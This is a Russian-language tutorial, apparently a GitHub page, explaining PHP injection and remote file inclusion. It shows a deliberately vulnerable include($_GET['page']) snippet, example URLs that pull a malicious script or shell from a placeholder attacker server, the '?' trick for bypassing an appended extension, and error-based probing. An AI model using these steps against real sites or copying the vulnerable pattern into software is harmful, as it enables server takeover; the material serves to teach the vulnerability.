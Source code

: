 # PHP-injection

PHP-инъекция - это атака на сайт, которая происходит за счет внедрения php кода в атакуемое php-приложение.

```
eval()
preg_replace() (с модификатором «e»)
require_once()
include_once()
include()
require()
create_function()
```
- Потенциально опасные функции

Разберем на примере функции include(), которая подключает внешний файл с кодом php.

Представим, что у нас имеется сайт, написанный на PHP. Представим так же, что сайт использует команду page=page.html для отображения запрашиваемой страницы. Код будет выглядеть так:

```php
<?php
$file = $_GET [ "page" ];
include($file );
?>
```

Это значит, что все, выводимое на странице, будет внедрено в пхп-код этой страницы. Следовательно атакующий может проделать что-то наподобии:

`http : //www.атакуемый_сайт.com/index.php?page=http://www.атакующий_серв.com/вредоносный_скрипт.txt?`

Если посмотреть, что происходит после выполнения include, нам представится следующий код, выполненный на целевом сервере:

```php
<?php
$file = "http://www.атакующий_серв.com/вредоносный_скрипт.txt?" ; //$_GET["page"];
include($file ); //$file - это внедренный злоумышленником скрипт
?>
```

Мы видим, что злоумышленник произвел успешную атаку на целевой сервер.

Немного подробнее:

Почему в примере был указан скрипт с расширением .txt , а не .php ? Ответ прост, если бы скрипт имел формат .php , он бы запустился на сервере злоумышленника, а не на целевой системе.

Зачем добавлен символ “?” в пути к внедряемому скрипту? Чтобы убрать что-либо, находящееся внутри функции include() на целевом сервере

```php
$file = $_GET [ "page" ];
include($file . ".php" );
?>
```

Этот скрипт добавляет расширение .php к чему либо, вызываемому командой include() . Т.е.

`http : //www.атакующий_серв.com/вредоносный_скрипт.txt`

Превращается в

`http : //www.атакующий_серв.com/вредоносный_скрипт.txt.php`

С таким именем скрипт не запустится (на сервере злоумышленника не существует фала /вредоносный_скрипт.txt.php ) По этому, мы и добавляем "?" в конец пути к вредоносному скрипту:

`http : //www.атакующий_серв.com/вредоносный_скрипт.txt?.php`

Но он остается исполняемым.

## RFI

Уязвимость типа PHP-injection позволяет проводить несколько других атак, например RFI (Remote File Inlcude) или “Удаленное подключение файлов”.

Допустим мы случайно набрели на страницу, в адресной строке браузера заканчивающуюся подобным образом: `/ index . php ? page = main`

Подставляем вместо main любое бредовое значение, например abcd

`/ index . php ? page = abcd`

В ответ получим ошибку:

`Warning : main (abcd . php ): failed to open stream : No such file or directory in / home / user / www [//page.php](<https://page.php/>) on line 3`

`Warning : main (abcd . php ): failed to open stream : No such file or directory in / home / user / www / page . php on line 3`

`Warning : main (): Failed opening "abcd.php" for inclusion (include_path = ".:/usr/lib/php:/usr/local/lib/php:/usr/local/share/pear" ) in / home / user / www / page . php on line 3`

Это показывает нам на то, что инклуд осуществим. Пробуем подставить вместо `abcd` сайт с путем до шелла (расширения файла шелла не должно указываться, или указывать его, как было описано выше)

`http : //www.атакуемый_сервер.com/index.php?file=http://www.сайт_злоумышленника.com/shell`

Таким образом получен шелл.